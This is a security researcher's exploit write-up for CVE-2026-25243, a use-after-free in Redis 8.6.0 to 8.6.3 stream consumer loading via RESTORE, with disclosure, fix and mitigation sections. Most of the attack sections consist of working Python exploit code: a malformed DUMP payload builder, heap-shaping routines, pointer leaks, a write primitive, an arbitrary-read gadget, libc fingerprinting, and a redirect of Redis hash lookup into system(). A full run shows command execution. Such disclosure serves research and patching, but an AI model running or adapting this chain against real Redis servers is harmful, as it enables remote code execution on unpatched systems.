

**Impact**: Remote code execution against exposed Redis 8.6.0 to 8.6.3 instances that accept the needed commands and have `sanitize-dump-payload no` (default).

**Affected versions**: Redis 8.6.0 to 8.6.3. Redis 7.x has the same missing NULL check, but this exploit path does not work there. See [Affected versions and mitigations](#affected-versions-and-mitigations).

**Status**: Fixed by PR [#15081](https://github.com/redis/redis/pull/15081). The PR landed in `unstable` on 2026-04-23 and is listed in the Redis 8.6.4 release notes.

**CVE Number**: [CVE-2026-25243](https://nvd.nist.gov/vuln/detail/CVE-2026-25243)

---

Around February 2026, I went to Japan. This post is not about that trip, but I did find the bug there. I knew I would have a few quiet evenings back at the hotel, so I picked Redis as a target and started reading.

Redis is a fast in-memory database. Most people meet it as a cache, but it also has queues, pub/sub, Lua scripting, persistence, and structured data types like Streams. What made Redis attractive was the amount of parser and serializer code exposed through normal commands. `DUMP` serializes a Redis object. `RESTORE` takes that serialized blob and rebuilds the object. If the object is simple, that is not very interesting, but if the object has nested state, ownership rules, and several internal indexes, then malformed serialized data can reach code paths that normal commands do not. Streams are in that second category: they are append-only logs with consumer groups, pending entries, per-consumer state, and RDB serialization logic. That is where the bug was.

I reported the bug through Redis' bug bounty program. The Redis triage team later told me it was a duplicate:


*Redis triage confirming the report was a duplicate.*

The original report came from [Emil Lerner](https://x.com/emil_lerner), shoutout to him! Emil already published a [deep dive](https://www.zeroday.cloud/blog/redis-cve-2026-25243-deep-dive), but this post is still worth writing because my exploit chain is different.

I did not start with Streams. I started with the parts of Redis that turn bytes back into objects. The question was not whether `RESTORE` was interesting, but which object type had enough internal structure to make it dangerous.

Streams stood out pretty quickly.

A stream is an append only log. On its own, that is simple enough. The interesting part is consumer groups. A group tracks which entries were delivered, which ones are still pending, and which consumer owns each pending
entry. That pending state lives in the PEL, the Pending Entries List. There are two views of the same pending state. The group has a global PEL and then each consumer also has its own PEL. Both views point at the same `streamNACK` objects. That is the invariant I cared about: one pending stream ID should map to one NACK, and one NACK should belong to one consumer.

The loader checked the first half of that invariant. It made sure the NACK existed in the group PEL before inserting it into a consumer PEL, but it did not check the second half. That missing check is enough to make two consumers point at the same `streamNACK`. Deleting one consumer frees it while the other consumer keeps the stale pointer. In Redis 8.6 this becomes exploitable because `streamNACK` grew to 64 bytes, which puts it in the same jemalloc size class as `dict`. The stale pointer can first be read as dict fields, then reused as a write gadget, and
finally used to redirect a Redis hash lookup into `system()`.

## The vulnerability

The vulnerable path is the consumer PEL loader in `src/rdb.c`.

When Redis loads a consumer, it walks the pending IDs listed under that consumer. For each ID, it looks up the matching NACK in the group PEL:

```c
while (pel_size--) {
    unsigned char rawid[sizeof(streamID)];
    rioRead(rdb, rawid, sizeof(rawid));

    void *result;
    if (!raxFind(cgroup->pel, rawid, sizeof(rawid), &result)) {
        rdbReportCorruptRDB("Consumer entry not found in group global PEL");
        return NULL;
    }
    streamNACK *nack = result;

    /* Set the NACK consumer, that was left to NULL when
     * loading the global PEL. Then set the same shared
     * NACK structure also in the consumer-specific PEL. */
    nack->consumer = consumer;
    if (!raxTryInsert(consumer->pel, rawid, sizeof(rawid), nack, NULL)) {
        rdbReportCorruptRDB("Duplicated consumer PEL entry loading a stream consumer group");
        streamFreeNACK(s, nack);
        return NULL;
    }
}
```

That lookup verifies the first half of the invariant: the pending ID must be present in the group PEL. Redis then assigns the NACK to the consumer being loaded:
```c
nack->consumer = consumer;
```

The missing check is the one that should happen before that assignment but Redis never verifies that another consumer has not already claimed the same NACK.

The `raxTryInsert` call only protects the current consumer's PEL. If the same stream ID appears twice under c1, the second insert fails. If the same stream ID appears once under c1 and once under c2, both inserts succeed.

Loading c2 overwrites `nack->consumer`, but c1 still has the original pointer in its own PEL. At that point the same `streamNACK` is reachable from two consumers. Delete one consumer, and Redis frees it. The other consumer still points at the freed allocation.

## Attack chain overview

Before going into the heap details, here is the whole chain.

1. **Create the shared NACK**: load a stream where c1 and c2 both reference the same `streamNACK`.
2. **Turn the stale pointer into leaks**: delete c2, reclaim the freed NACK slot with a `dict`, then read the old NACK fields through c1 with `XINFO STREAM FULL`. The field overlap leaks a PIE pointer and a heap pointer.
3. **Repeat until the heap is mapped enough**: do the leak three times to get one stable `entryHashDictType` pointer and three heap bucket addresses.
4. **Turn `pelListUnlink` into writes**: reclaim freed NACK slots with controlled SDS data, then delete the remaining consumer. The linked list unlink writes attacker controlled `pel_next` values through attacker controlled `pel_prev` pointers.
5. **Build arbitrary read**: use one write to point a live dict at a fake hash table stored in a string value. `SETRANGE` changes the target address, and `HGET` reads from it.
6. **Find libc and call `system()`**: scan GOT entries, fingerprint glibc, write a fake `dictType`, and trigger it with `HGET h:target "id > /tmp/pwned"`.

The rest of the post walks through those transitions in order: first making the invalid stream state, then shaping the 64 byte allocator class, then using Redis' own hash lookup machinery as the final call site.

## Creating the shared NACK

The first goal is not to corrupt memory directly but to create an impossible stream state:

- the group PEL contains one NACK for `100-1`
- c1 points to that NACK
- c2 also points to that same NACK

Normal Redis commands keep that ownership consistent. `RESTORE` is different because it asks the RDB loader to rebuild the object from bytes.

Start with a valid stream:

```
XADD mystream 100-1 f v1
XADD mystream 200-1 f v2
XADD mystream 300-1 f v3
XGROUP CREATE mystream g 0

XREADGROUP GROUP g c1 COUNT 2 STREAMS mystream >   # c1 gets 100-1 and 200-1
XREADGROUP GROUP g c2 COUNT 1 STREAMS mystream >   # c2 gets 300-1
```

The resulting state is valid: c1 owns `100-1` and `200-1`, c2 owns `300-1`, and the group PEL contains all three NACKs.

The patch is small: edit c2's consumer record so its PEL also contains `100-1`.

In the dump, c2's consumer record is a length prefixed name (`\x02c2`) followed by two timestamps, a `pel_size`, and then the pending IDs. Increment `pel_size` from 1 to 2 and insert the 16 byte big endian stream ID for `100-1` before c2's existing ID. Recompute the CRC64 and restore the modified object.

When Redis loads the modified object, c2's new `100-1` entry passes the group PEL lookup because the global NACK already exists. Redis assigns that NACK to c2 and inserts the same pointer into c2's PEL. c1's PEL is not revisited, so it keeps its pointer.

```python
def create_uaf(r, src, uaf, id_a, id_b):
    """
    Create a stream at `uaf` where consumers c1 and c2 share the NACK for id_a-1.
    `src` is a scratch key used to build the clean stream before patching.
    """
    RAWID_A = struct.pack(">QQ", id_a, 1)

    r.pipeline([
        ["XADD", src, f"{id_a}-1", "f", "v1"],
        ["XADD", src, f"{id_b}-1", "f", "v2"],
        ["XADD", src, f"{id_b+1}-1", "f", "v3"],
        ["XGROUP", "CREATE", src, "g", "0"],
        ["XREADGROUP", "GROUP", "g", "c1", "COUNT", "2", "STREAMS", src, ">"],
        ["XREADGROUP", "GROUP", "g", "c2", "COUNT", "1", "STREAMS", src, ">"],
    ])

    _, dump = r.cmd("DUMP", src)
    data = bytearray(dump)

    c2_pos = data.find(bytes([2]) + b"c2")
    after_name = c2_pos + 3
    pel_off = after_name + 16  # skip seen_time + active_time

    mod = bytearray()
    mod += data[:pel_off]
    mod += bytes([data[pel_off] + 1])  # pel_size: 1 -> 2
    mod += RAWID_A
    mod += data[pel_off + 1:]

    crc_val = crc64(mod[:-8])  # CRC64-Jones, Redis polynomial 0xad93d23594c935a9
    mod = mod[:-8] + struct.pack('<Q', crc_val)

    t, v = r.cmd("RESTORE", uaf, "0", bytes(mod))
    return t == 'str' and 'OK' in v
```

`crc64` implements CRC64-Jones with Redis's lookup table (polynomial `0xad93d23594c935a9`). A zero CRC shortcut only passes validation on Redis 8.x, which is why this script targets 8.6 specifically.

Now the object has the shape we wanted: two consumers, one shared NACK.

Deleting c2 walks c2's PEL and frees every NACK it sees:

```
XGROUP DELCONSUMER mystream g c2
```

```c
while (raxNext(&ri)) {
    streamNACK *nack = ri.data;
    streamUnlinkEntryFromCGroupRef(s, nack, ri.key);
    pelListUnlink(cg, nack);
    raxRemove(cg->pel, ri.key, ri.key_len, NULL);
    streamFreeNACK(s, nack);
}
```

That frees the NACK for `100-1`, but c1 still retains it in its PEL. This creates the use-after-free.

## Why Redis 8.6 makes this exploitable

The stale pointer in c1's PEL is only useful if we can put another object in the freed NACK slot before Redis reads it again.

Redis 7.x did not give me an obvious object for that. `streamNACK` was 40 bytes, which jemalloc rounds to the 48 byte class. `dict` lives in the 64 byte class. A freed NACK and a fresh dict do not come from the same pool, so this particular technique does not line up.

Redis 8.6 changed that by accident.

Commit [`cecdc9987`](https://github.com/redis/redis/commit/cecdc9987) added `pel_prev` and `pel_next` to `streamNACK` for time ordered PEL iteration:

```c
struct streamNACK {
    mstime_t delivery_time;          // +0:  8 bytes
    uint64_t delivery_count;         // +8:  8 bytes
    streamConsumer *consumer;        // +16: 8 bytes
    listNode *cgroup_ref_node;       // +24: 8 bytes
    streamID id;                     // +32: 16 bytes
    struct streamNACK *pel_prev;     // +48: 8 bytes
    struct streamNACK *pel_next;     // +56: 8 bytes
};                                   // total: 64 bytes
```

Those two pointers push `streamNACK` to 64 bytes. That puts it in the same jemalloc size class as `dict`. In this build, `dict` is 56 bytes of named fields plus 8 bytes of flexible array metadata (`entryHashDictType` specifies `sizeof(size_t) = 8`).

This gives the freed slot two meanings. c1 still reads it as a `streamNACK`, while Redis can reuse the same allocation as a `dict`. The first two fields line up:

| Offset | streamNACK field | dict field                          |
|--------|-----------------|-------------------------------------|
| +0     | delivery_time   | type (pointer into PIE .data)       |
| +8     | delivery_count  | ht_table[0] (heap pointer to bucket array) |

`XINFO STREAM FULL` walks c1's PEL and prints `delivery_time` and `delivery_count` as integers. If the freed NACK slot has been reused by a dict, those two integers are no longer timestamps and counters. They are `dict->type`, a PIE pointer, and `dict->ht_table[0]`, a heap pointer.

That is the first primitive: reclaim the NACK slot with a dict, then ask Redis to print the stale NACK fields back to us.

## Leaking PIE and heap addresses

The leak depends on one heap placement: the freed NACK slot has to be reused by a dict before c1 is inspected with `XINFO`.

After `XGROUP DELCONSUMER ... c2`, the 64 byte bin contains three relevant frees:

1. the shared NACK for `100-1`
2. c2's own NACK for `300-1`
3. c2's `streamConsumer`

All three are 64 byte allocations in this build, and the thread cache is LIFO. A dict allocation immediately after `DELCONSUMER` will not reliably take the shared NACK slot. The allocator needs some shaping first.

In my Redis 8.6.1 Docker setup, I used a blunt tcache flush: allocate and free 512 temporary 60 byte string values. A 60 byte SDS value consumes a 64 byte allocation once the `sdshdr8` header and NUL byte are included. That was enough to push the three freed stream objects out of the thread cache and back into the slab pool.

After that, I take two allocations:

1. `SET dummy <60 bytes>` consumes one 64 byte slot.
2. `HSET h:leak ...` creates the hash object shape I need, allocating a dict and a 64 byte bucket array.

With that sequence, the dict struct lands in the shared NACK slot. Its `ht_table[0]` field then points at the new bucket array.

```python
def flush_tcache(r, count=512):
    keys = [f"_ft{i}" for i in range(count)]
    r.pipeline([["SET", k, "F" * 60] for k in keys])
    r.pipeline([["DEL", k] for k in keys])

def do_leak(r, src, uaf_name, hash_name, dummy_name, id_a, id_b):
    create_uaf(r, src, uaf_name, id_a, id_b)

    r.cmd("XGROUP", "DELCONSUMER", uaf_name, "g", "c2")
    flush_tcache(r)
    r.cmd("SET", dummy_name, "D" * 60)
    r.cmd("HSET", hash_name,
          "f0", "v0v0v0v0", "f1", "v1v1v1v1",
          "f2", "v2v2v2v2", "f3", "v3v3v3v3",
          "f4", "v4v4v4v4")
    r.pipeline([["HGET", hash_name, f"f{i}"] for i in range(5)])  # ensure conversion completes

    resp = r.cmd("XINFO", "STREAM", uaf_name, "FULL")
    consumers = parse_consumer_pel(resp)
    for name, entries in consumers.items():
        for eid, dt, dc in entries:
            udt = dt & 0xFFFFFFFFFFFFFFFF
            udc = (dc & 0xFFFFFFFFFFFFFFFF) if dc else 0
            if 0x100000000000 < udt < 0x800000000000:
                if 0x100000000000 < udc < 0x800000000000:
                    return udt, udc
    return None, None
```

`XINFO STREAM FULL` now reads c1's stale PEL entry. Redis thinks it is reading a `streamNACK`, but the bytes are a dict. `delivery_time` becomes `dict->type`, and `delivery_count` becomes `dict->ht_table[0]`.

`parse_consumer_pel` only unwraps the response. The server returns a flat alternating key/value list at each nesting level. The parser extracts each consumer's name and PEL entries: stream ID, delivery time integer, and delivery count integer.

Running `do_leak` three times and taking the majority value of `delivery_time` gives `type_addr`, the address of `entryHashDictType` in the binary's `.data` section. The three `delivery_count` values, H1, H2, and H3, are heap addresses of dict bucket arrays used later.

## A write primitive in pelListUnlink

The leak gives addresses so the next step is to write to them.

The same two fields that made Redis 8.6 exploitable, `pel_prev` and `pel_next`, give a write primitive when Redis unlinks a NACK from the time ordered PEL list. If the stale NACK slot is reclaimed with a string value, those two fields come from attacker controlled SDS bytes.

The unlink code is standard doubly linked list cleanup:

```c
static void pelListUnlink(streamCG *cg, streamNACK *nack) {
    if (nack->pel_prev) {
        nack->pel_prev->pel_next = nack->pel_next;   // *(pel_prev + 56) = pel_next
    } else {
        cg->pel_time_head = nack->pel_next;
    }
    if (nack->pel_next) {
        nack->pel_next->pel_prev = nack->pel_prev;   // *(pel_next + 48) = pel_prev
    } else {
        cg->pel_time_tail = nack->pel_prev;
    }
}
```

For a reclaimed NACK, both branches use data we control:

- `nack->pel_prev` controls the destination
- `nack->pel_next` controls the value

The first assignment gives:

```c
*(pel_prev + 56) = pel_next
```

The second assignment also fires if `pel_next` is non NULL:

```c
*(pel_next + 48) = pel_prev
```

I treat the first assignment as the write primitive and route the second one into padding in the fake object used later.

The remaining problem is packing those two pointers into a Redis string allocation. A 60 byte SDS value occupies a 64 byte allocation:

- 3 bytes of `sdshdr8`
- 60 bytes of data
- 1 NUL byte

So data byte 45 lands at allocation offset 48, which is `pel_prev`. Data bytes 53 through 59 land at allocation offsets 56 through 62, which are the low 7 bytes of `pel_next`. The NUL terminator at offset 63 clears the top byte. That is fine for canonical userspace pointers.

```python
def build_pel_spray(pel_prev, pel_next):
    spray = bytearray(60)
    struct.pack_into('<Q', spray, 45, pel_prev)
    pn = struct.pack('<Q', pel_next)
    spray[53:60] = pn[:7]   # MSB left as NUL terminator at offset 63
    return bytes(spray)

def trigger_pel_write(r, uaf_src, uaf_name, dummy_name, spray_name,
                      id_a, id_b, pel_prev, pel_next):
    create_uaf(r, uaf_src, uaf_name, id_a, id_b)
    r.cmd("XGROUP", "DELCONSUMER", uaf_name, "g", "c2")
    flush_tcache(r)
    r.cmd("SET", dummy_name, "P" * 60)                          # consume one slot
    r.cmd("SET", spray_name, build_pel_spray(pel_prev, pel_next))  # reclaim shared NACK slot
    r.cmd("XGROUP", "DELCONSUMER", uaf_name, "g", "c1")
    # pelListUnlink fires here: *(pel_prev + 56) = pel_next
```

Each call to `trigger_pel_write` consumes one malformed stream and gives one 8 byte write. The exploit uses three leak streams and three write streams.

## Building arbitrary read

The write primitive gives pointer writes. To turn that into arbitrary read, I make Redis' hash lookup walk a fake hash table stored inside a string.

The setup needs three objects:

- `fakeht`: a string whose bytes are shaped like a tiny hash table
- `h:reader`: a real Redis hash whose `ht_table[0]` will be redirected to `fakeht`
- `h:target`: another real hash saved for the final `dictType` overwrite

The fake table is a 60 byte SDS allocation. The first 32 bytes are four bucket pointers, all pointing to the same embedded fake entry. That avoids caring which 2 bit bucket index Redis computes for the key `"X"`.

The embedded entry starts at allocation offset 41. Its `sdshdr8` fields are:

- `len = 1`
- `alloc = 1`
- `flags = 0x11`

The low bits of `0x11` mark the key as SDS_TYPE_8. Bit 4 marks the value as `VALUE_PTR`, meaning the value is not inline. Instead, Redis reads an 8 byte pointer from a fixed offset relative to the fake entry and dereferences it when `HGET` returns the value.

For this layout, that value pointer is at data offset 33. `SETRANGE fakeht 33 <addr>` changes the pointer, and `HGET h:reader "X"` reads from `addr`.

```python
def build_fakeht(fakeht_addr, initial_target=0):
    # The embedded fake entry's SDS char* (= dictEntry*) is at fakeht_addr + 44
    entry_ptr = fakeht_addr + 44
    data = bytearray(60)
    for i in range(4):
        struct.pack_into('<Q', data, i * 8, entry_ptr)   # [0:32]: 4 bucket slots
    struct.pack_into('<Q', data, 33, initial_target)     # [33:41]: value pointer (dereference target)
    data[41] = 1      # sdshdr8.len  (key length = 1)
    data[42] = 1      # sdshdr8.alloc
    data[43] = 0x11   # SDS_TYPE_8 | VALUE_PTR
    data[44] = 0x58   # 'X' (key byte)
    return bytes(data)

def arb_read(r, fakeht_key, reader_key, target_addr):
    r.cmd("SETRANGE", fakeht_key, "33", struct.pack('<Q', target_addr))
    t, v = r.cmd("HGET", reader_key, "X")
    return v if t == 'bulk' and v else None

def safe_arb_read(r, fakeht_key, reader_key, target_addr, probe_timeout=1.5):
    r.sock.settimeout(probe_timeout)
    try:
        result = arb_read(r, fakeht_key, reader_key, target_addr)
        r.sock.settimeout(10)
        return result
    except socket.timeout:
        r.reconnect()
        return None
    except (ConnectionError, OSError):
        return None
```

The timeout guard is necessary: if the byte preceding the target address has `bits[2:0] == 4` (SDS_TYPE_64), the server interprets a field 17 bytes behind the pointer as a length and tries to allocate a massive buffer, hanging the connection.

**Wiring up the readers**

H1, H2, and H3 were leaked as bucket array addresses from the three leak hashes. Their old role does not matter anymore. What matters is that each name is a known 64 byte heap slot I can free and reclaim.

After deleting the leak hashes, those slots go back to the allocator. I reclaim them with different object types:

| Address | Leaked as | Reclaimed as | Why it matters |
|---------|-----------|--------------|----------------|
| H1 | bucket array for the first leak hash | `h:target` dict struct | final object whose `type` and `ht_table[0]` are overwritten |
| H2 | bucket array for the second leak hash | `fakeht` SDS string | fake hash table, later fake `dictType` |
| H3 | bucket array for the third leak hash | `h:reader` dict struct | object redirected to the fake table for arbitrary read |

Now H3 is no longer "the old bucket array". It is the address of the live `h:reader` dict struct. That makes `H3 + 8` the `ht_table[0]` field we want to overwrite.

The first `pelListUnlink` write redirects `h:reader` to the fake table:

```python
# Want: *(H3 + 8) = fakeht_addr   [H3+8 is h:reader's ht_table[0]]
# So:   pel_prev = H3 - 48,  pel_next = fakeht_addr
# Side effect: *(fakeht_addr + 48) = H3 - 48  [lands in fakeht padding, safe]
trigger_pel_write(r, src, uaf30, dummy30, spray30, id_a, id_b, H3 - 48, fakeht_addr)
```

## Scanning the GOT for libc

The arbitrary read can now leave the Redis and heap mappings, but code execution still needs a libc address.

`type_addr` gives a good anchor for that search. It points into Redis' `.data` section, and the GOT sits nearby in the same PIE mapping. Once the dynamic loader resolves imports, GOT slots for imported functions contain real libc pointers. The exploit scans downward from `type_addr` at 8 byte alignment, across the two pages that contain the useful GOT entries, and keeps values that look like canonical shared library addresses rather than Redis PIE addresses.

The read primitive is still awkward because `HGET` does not copy raw memory. It treats the address in the fake hash entry as an SDS value, so the byte before the returned data becomes the SDS flags byte. Those flag bits decide how Redis computes the length. If the flags decode as `SDS_TYPE_64`, Redis may read a huge length and hang the connection. If they decode as an invalid SDS type, the process can crash. The scanner therefore treats each read as a probe: timeout, reconnect if needed, and only keep responses that return enough bytes to reconstruct a pointer.

The convenient case is `SDS_TYPE_5` with a usable embedded length. A flags byte of `0x7f`, for example, decodes to a 15 byte string length because `0x7f >> 3 = 15`. That is more than enough for a GOT slot. On x86-64 Linux, userspace pointers fit in the lower six meaningful bytes, with the high bytes zeroed, so seven returned bytes are enough to rebuild the address.

I avoid using the ELF header as a version oracle. The header bytes are bad inputs for this primitive: `'E'` (`0x45`, `bits[2:0] == 5`) is an invalid SDS type, and `'L'` (`0x4c`, `bits[2:0] == 4`) triggers the `SDS_TYPE_64` hang. Instead, the exploit fingerprints libc from the GOT values themselves. It carries a table of `(symbol, offset from libc base)` pairs for glibc 2.31 to 2.41. For every scanned GOT value and every known symbol offset, it proposes a candidate `libc_base = entry_addr - known_offset`, then scores that base by counting how many other scanned values match symbols from the same table. I treat a score of three as a match. Normal runs score much higher.

A scan of Redis 8.6.1 on Debian Trixie finds 25 GOT entries across two pages in under 100 probes:

```
n=53 page=0x000062a3b4f4b000  probes=16  hits=8   (total=8)
n=52 page=0x000062a3b4f4c000  probes=64  hits=17  (total=25)

glibc 2.41 (score=12)  system@libc = 0x00007f1a28e53110
```

## Code execution

The last step is finding a function call where I control the first argument.

Redis hash lookup supplies it. A hash table does not hardcode its hash function. Every Redis dict has a `type` pointer at offset +0, and that pointer leads to a `dictType` struct whose first field is `hashFunction`:

```c
typedef struct dictType {
    uint64_t (*hashFunction)(const void *key);
    ...
};
```

When Redis handles `HGET key field`, it eventually calls `dictHashKey(d, field)`. That dispatches to `d->type->hashFunction(field)`. If `h:target->type` points to a fake `dictType` whose first 8 bytes are `system`'s address, then this:

```
HGET h:target "id > /tmp/pwned"
```

becomes this:

```
system("id > /tmp/pwned")
```

The field string is already the command. Redis passes it as an SDS char pointer, and SDS strings are NUL terminated, so it reaches `system` as a normal C string.

`fakeht` has already served its purpose for arbitrary read, so the exploit reuses it as a fake `dictType`:

```python
SETRANGE fakeht_key 0 <system_addr>
```

That overwrites the first 8 bytes of `fakeht`, which were previously bucket pointers, with the address of `system`.

The cleanup after the call is also important. After `system` returns, Redis continues the hash lookup. If the corrupted dict points at junk buckets, the server can crash before returning a response. The lookup should fail cleanly instead.

In the tested Redis 8.6.1 build, `entryHashDictType` has zero-initialized optional callback fields starting at offset +40. That zeroed region lives in Redis' `.data` section, so its offset from `type_addr` is stable across ASLR. Setting `h:target->ht_table[0] = type_addr + 40` makes the four-bucket lookup read NULL bucket slots and return nil.

So the final object corruption is small: change two pointers in `h:target`.

```python
# Write h:target->type = fakeht_addr  (system_addr is now at fakeht_addr[0:8])
# *(H1 + 0) = fakeht_addr  =>  pel_prev = H1 - 56, pel_next = fakeht_addr
trigger_pel_write(r, src, uaf40, dummy40, spray40, id_a, id_b, H1 - 56, fakeht_addr)

# Write h:target->ht_table[0] = zero region inside entryHashDictType
# *(H1 + 8) = type_addr + 40  =>  pel_prev = H1 - 48, pel_next = type_addr + 40
trigger_pel_write(r, src, uaf50, dummy50, spray50, id_a, id_b, H1 - 48, type_addr + 40)
```

Then trigger:

```
HGET h:target "id > /tmp/pwned"
  -> dictHashKey(d, "id > /tmp/pwned")
  -> d->type->hashFunction("id > /tmp/pwned")
  -> system("id > /tmp/pwned")
  -> (nil)
```

## Full run

This run shows the full chain against my test target. The exploit learns the Redis PIE address, heap addresses, and libc address during the run. It does not brute force ASLR.

The target is a stock `redis:8.6.1` Docker container with no auth and no config changes:

```
$ python3 main.py 127.0.0.1 6379 "id > /tmp/pwned"

    Redis 8.6.1  jemalloc-5.3.0  sanitize-dump-payload: no

    Leak 1: type=0x000062a3b4f835e0  H1=0x00007f1a2c100040
    Leak 2: type=0x000062a3b4f835e0  H2=0x00007f1a2c100140
    Leak 3: type=0x000062a3b4f835e0  H3=0x00007f1a2c100240
    type_addr consensus 3/3

    fakeht placed at H2, h:reader at H3, h:target at H1
    pelListUnlink: *(0x00007f1a2c100248) = 0x00007f1a2c100143
    arb-read verified

    n=53: 8 hits   n=52: 17 hits   total=25 GOT entries
    glibc 2.41 (score=12)   system = 0x00007f1a28e53110

    HGET h:target "id > /tmp/pwned"
    command executed, server still responding

$ docker exec redis-test cat /tmp/pwned
uid=999(redis) gid=999(redis) groups=999(redis)
```

On this setup, the run takes about 30 seconds. I ran it 50 times against an idle `redis:8.6.1` container and got 50 successful runs. That result is specific to this allocator build and workload. The heap addresses are discovered from Redis responses, but the allocation choreography still assumes a quiet server. Concurrent traffic can disturb it.

## The fix

The exploit depends on one impossible state: loading a second consumer PEL entry that reuses a NACK already owned by another consumer.

The fix is to reject that state during `RESTORE`. When the stream loader finds that a NACK already exists for the message ID, it should only reuse it if the NACK is still unclaimed. If `nack->consumer` is already set, the payload is corrupt.

PR [#15081](https://github.com/redis/redis/pull/15081) adds that check in `src/rdb.c`:

```c
streamNACK *nack = result;

if (nack->consumer != NULL) {
    rdbReportCorruptRDB("NACK already claimed by another consumer");
    decrRefCount(o);
    return NULL;
}

nack->consumer = consumer;
```

That guard stops the shared NACK from being created. Without the shared NACK, deleting one consumer cannot leave another consumer with a pointer to freed memory, so the rest of the chain never starts.

## Affected versions and mitigations

For this exploit path, the version number is only a shortcut. The real question is whether stream RDB loading rejects a consumer PEL entry that tries to claim a NACK already owned by another consumer. If that guard is present, the malformed `RESTORE` payload dies before the shared NACK exists. If it is missing, exploitability still depends on the object layout and allocator behavior.

| Target | Status for this chain | Notes |
|--------|-----------------------|-------|
| Upstream Redis 8.6.0 to 8.6.3 | Exposed | Tested on `redis:8.6.1`; the 8.6 `streamNACK` layout lines up with the dict allocation used by this exploit |
| Upstream Redis 8.6.4 and newer | Fixed | Redis 8.6.4 release notes list PR #15081 |
| Redis 7.x | Not exploitable with this chain | The ownership check was missing, but the allocator layout does not line up |
| Vendor packages | Check the patch, not only the version | Some distributions backport security fixes without changing the upstream version number |

Redis 7.x is worth calling out because it has the same missing `nack->consumer != NULL` check. The difference is layout. In Redis 7.x, `streamNACK` is 40 bytes, which jemalloc rounds to the 48 byte slab class. The dict structure used by this exploit occupies the 64 byte class. The freed NACK therefore lands in a different pool, so this exploit cannot reclaim it as the dict object it needs. Another technique may exist. This chain does not apply.

The practical mitigations are:

1. **Update to a build with PR #15081**. For upstream Redis 8.6, that means Redis 8.6.4 or newer.
2. **Enable `sanitize-dump-payload yes`** if you cannot update immediately. This makes Redis validate serialized payloads during `RESTORE`, which blocks the malformed stream object before it enters the keyspace. The tradeoff is extra CPU cost for workloads that use `RESTORE` heavily.
3. **Restrict `RESTORE` with ACLs**. Treat it as an import or administrative command, not something ordinary application clients should have. The public CVE wording also centers the attacker requirement on permission to execute `RESTORE`.
4. **Keep Redis off untrusted networks**. Require authentication, bind to trusted interfaces, and restrict port 6379 with firewall rules or network policy. Recent defaults are safer than the old internet facing examples, but production deployments often override defaults.

## Disclosure timeline

| Date | Event |
|------|-------|
| 2026-03-16 | Reported to Redis security team |
| 2026-04-23 | PR #15081 merged into `unstable` |
| 2026-06 | Redis 8.6.4 release notes list PR #15081 |
| 2026-07-09 | Public disclosure |

Looking back, the bug itself is small: one missing ownership check while rebuilding a stream. The exploitability came from the surrounding details. `RESTORE` can rebuild internal states that normal commands would never create, and a later layout change moved `streamNACK` into the right allocator class. That is the part I find interesting: the dangerous state was only one bad pointer assignment, but turning it into code execution depended on how several Redis subsystems met in memory.

---

References:

1. Commit [`cecdc9987`](https://github.com/redis/redis/commit/cecdc9987): adds `pel_prev` and `pel_next` to `streamNACK`
2. PR [#15081](https://github.com/redis/redis/pull/15081): rejects corrupt stream RDB payloads with a shared NACK
3. [Redis 8.6 release notes](https://redis.io/docs/latest/operate/oss_and_stack/stack-with-enterprise/release-notes/redisce/redisos-8.6-release-notes/): lists PR #15081 in Redis 8.6.4
4. [`src/rdb.c`](https://github.com/redis/redis/blob/unstable/src/rdb.c): stream deserialization
5. [`src/t_stream.c`](https://github.com/redis/redis/blob/unstable/src/t_stream.c): `streamDelConsumer`, `pelListUnlink`
6. [`src/stream.h`](https://github.com/redis/redis/blob/unstable/src/stream.h): `streamNACK` layout
7. [CWE-416](https://cwe.mitre.org/data/definitions/416.html): Use After Free
